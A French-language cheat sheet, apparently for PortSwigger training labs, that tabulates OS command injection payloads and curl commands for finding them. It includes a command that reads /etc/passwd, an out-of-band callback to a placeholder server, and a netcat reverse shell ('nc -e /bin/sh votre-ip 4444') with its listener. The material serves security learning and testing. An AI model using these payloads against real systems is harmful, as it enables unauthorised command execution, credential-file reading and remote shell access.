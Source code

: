# OS Injection

Voici un tableau synthétique pour l’analyse et la découverte des failles d’injection OS (OS Command Injection) sur les labs PortSwigger, **avec des commandes curl différenciées pour l’attaque et l’analyse** selon chaque cas, des charges utiles neutres, et des explications claires en français :

| Type / Lab                                 | Payload d’attaque neutre (exemple)        | Commande d’attaque (curl)                                                                                 | Commande(s) d’analyse curl                                                                                 | Élément d’analyse (raison préalable)                   | Méthodologie détaillée de découverte                                                                                   | URL PortSwigger ou source utile                                      |
|---------------------------------------------|-------------------------------------------|-----------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------|--------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------|
| Injection OS basique (réponse visible)      | ;cat /etc/passwd                          | curl -G --data-urlencode "input=valeur;cat /etc/passwd" https://LAB/vuln                                  | curl -G --data-urlencode "input=valeur" https://LAB/vuln                                                   | Affichage du contenu d’un fichier système              | Injectez un séparateur de commande suivi d’une commande système. Comparez la réponse avec celle d’une requête neutre. Si le contenu du fichier apparaît, la faille est confirmée. | https://portswigger.net/web-security/os-command-injection/lab-simple |
| Injection OS aveugle (time-based)           | ;sleep 5                                  | curl -G --data-urlencode "input=valeur;sleep 5" https://LAB/vuln --max-time 10 -w "%{time_total}\n"       | curl -G --data-urlencode "input=valeur" https://LAB/vuln --max-time 10 -w "%{time_total}\n"                | Temps de réponse anormalement long                     | Injectez une commande qui provoque un délai (sleep). Comparez le temps de réponse avec une requête neutre. Un délai anormal indique une injection OS aveugle. | https://portswigger.net/web-security/os-command-injection/lab-blind-time-delay |
| Injection OS avec interaction externe        | ;curl http://votre-serveur.com/collect    | curl -G --data-urlencode "input=valeur;curl http://votre-serveur.com/collect" https://LAB/vuln            | Surveillez les logs ou requêtes sur votre serveur externe (tcpdump, Burp Collaborator, logs web)           | Détection d’une requête sur votre serveur externe      | Injectez une commande qui force le serveur à contacter une URL que vous contrôlez. Surveillez votre serveur pour détecter une connexion sortante (preuve d’exécution de la commande). | https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band |
| Injection OS Windows (PowerShell)            | &whoami                                  | curl -G --data-urlencode "input=valeur&whoami" https://LAB/vuln                                           | curl -G --data-urlencode "input=valeur" https://LAB/vuln                                                   | Affichage du nom d’utilisateur système Windows         | Injectez une commande Windows typique (par exemple, whoami). Si le résultat s’affiche dans la réponse, la faille est présente côté Windows. | https://portswigger.net/web-security/os-command-injection/lab-windows |
| Injection OS avancée (reverse shell)         | ;nc -e /bin/sh votre-ip 4444              | curl -G --data-urlencode "input=valeur;nc -e /bin/sh votre-ip 4444" https://LAB/vuln                      | Surveillez votre listener netcat : nc -lvp 4444                                                            | Ouverture d’un shell distant sur votre machine         | Injectez une commande lançant un reverse shell vers votre machine. Si vous obtenez un shell sur votre listener, la faille est confirmée. | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/OS%20Command%20Injection/README.md |
| Injection OS filtrée (test argument)         | ;echo testinjection                       | curl -G --data-urlencode "input=valeur;echo testinjection" https://LAB/vuln                               | curl -G --data-urlencode "input=valeur" https://LAB/vuln                                                   | Affichage d’une chaîne arbitraire dans la réponse      | Injectez une commande inoffensive (echo). Si la chaîne apparaît dans la réponse, la faille est présente même si les commandes critiques sont filtrées. | https://portswigger.net/web-security/os-command-injection/lab-filtered |

---

